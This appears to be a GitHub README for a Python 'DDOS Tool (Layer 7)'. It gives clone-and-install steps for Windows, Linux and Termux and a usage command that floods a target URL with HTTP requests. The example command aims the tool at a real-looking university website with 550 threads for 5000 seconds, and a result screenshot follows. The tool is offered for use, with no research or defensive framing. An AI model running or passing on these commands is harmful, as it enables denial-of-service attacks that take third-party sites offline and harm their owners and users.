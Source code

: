 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
</div>


# :computer: Welcome
<p align="center">
  <img src="https://github.com/user-attachments/assets/8dee4873-6758-4747-90c7-8755ff069887">
</p>

# ⛔ INSTALL


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcR11tp5q3Bc5nb3EYXL3uvcFjkSWzkT43hdSQ&s" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/Dhanush2468/DDOS-ATTACK-TOOL-BY-WHITEDEVIL.git
cd DDOS-TOOL-BY-WHITEDEVIL
pip3 install -r requirements.txt
```

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 ddos.py --time 5000 --threads 550 --target https://giet.ac.in/ --method HTTP
```

RESULT :
![image](https://github.com/user-attachments/assets/4fd40b04-3a4a-4f4d-bfdc-09a2cb30fd79)



